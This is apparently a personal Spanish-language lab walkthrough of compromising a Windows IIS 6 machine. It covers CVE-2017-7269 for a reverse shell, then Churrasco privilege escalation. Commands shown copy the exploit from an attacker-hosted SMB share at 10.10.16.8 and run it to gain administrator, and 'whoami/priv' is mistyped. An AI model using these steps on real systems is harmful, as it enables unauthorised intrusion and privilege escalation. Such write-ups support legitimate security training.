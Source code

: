 Hacemos el escaneo con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230901161535.png]]
Vemos un servicio de IIS en su versión 6 corriendo por el puerto 80, por lo que vamos a mirar:
![[Mis apuntes/ANEXOS/Pasted image 20230901161602.png]]
Pero vamos a ver si hay exploits para explotar esta versión de IIS, donde vemos que sí con el CVE-2017-7269:
![[Mis apuntes/ANEXOS/Pasted image 20230901161949.png]]
Y ahora poniendo esto otro en google ya vemos un exploit:
![[Mis apuntes/ANEXOS/Pasted image 20230901162218.png]]
Y aquí vemos las instrucciones de cómo usar este exploit:
![[Mis apuntes/ANEXOS/Pasted image 20230901162307.png]]
Por tanto lo lanzamos siguiendo estas instrucciones:
![[Mis apuntes/ANEXOS/Pasted image 20230901162408.png]]
Y recibimos la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230901162420.png]]
Y ya siendo el usuario administrador del servicio de la red:
![[Mis apuntes/ANEXOS/Pasted image 20230901162437.png]]
Pero para escalar privilegios, tenemos que enumerar privilegios del sistema con el usuario que ya somos, usando el siguiente comando:
```bash
whoami/priv
```
Y vemos un privilegio que al estar habilitado nos puede servir para escalar:
![[Mis apuntes/ANEXOS/Pasted image 20230901162740.png]]
Por tanto esto es vulnerable a rotten potato, por tanto hay un exploit llamado churrasco:
```bash
https://github.com/Re4son/Churrasco/
```
![[Mis apuntes/ANEXOS/Pasted image 20230901163041.png]]
Nos lo compartimos con la máquina víctima:
```bash
impacket-smbserver recurso $(pwd) -smb2support
```
![[Mis apuntes/ANEXOS/Pasted image 20230901163240.png]]
Dentro de la máquina víctima nos ubicamos dentro del directorio temp y aquí nos bajamos el archivo:
```bash
copy \\10.10.16.8\recurso\churrasco.exe churrasco.exe
```
![[Mis apuntes/ANEXOS/Pasted image 20230901163426.png]]
Y ahora ejecutamos el siguiente comando con churrasco y ya somos el usuario administrador:
```bash
churrasco.exe -d "cmd.exe"
```
![[Mis apuntes/ANEXOS/Pasted image 20230901163511.png]]

